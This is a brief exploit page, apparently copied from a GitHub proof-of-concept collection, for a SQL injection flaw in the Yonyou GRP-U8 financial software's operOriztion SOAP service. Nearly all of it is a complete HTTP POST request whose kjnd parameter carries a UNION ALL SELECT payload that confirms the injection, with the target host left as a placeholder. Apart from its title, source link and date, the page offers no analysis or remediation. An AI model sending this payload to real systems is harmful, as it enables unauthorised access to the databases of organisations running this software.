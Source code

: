 # grpu8_operOriztion_sqli

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BGRP-U8-operOriztion%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.22 @2

```
POST /services/operOriztion HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsdd="http://xml.apache.org/axis/wsdd/">
<soapenv:Header/>
<soapenv:Body>
<wsdd:getGsbmfaByKjnd soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<kjnd xsi:type="xsd:string">' UNION ALL SELECT sys.fn_sqlvarbasetostr(HashBytes('MD5','123456'))-- </kjnd>
</wsdd:getGsbmfaByKjnd>
</soapenv:Body>
</soapenv:Envelope>
```
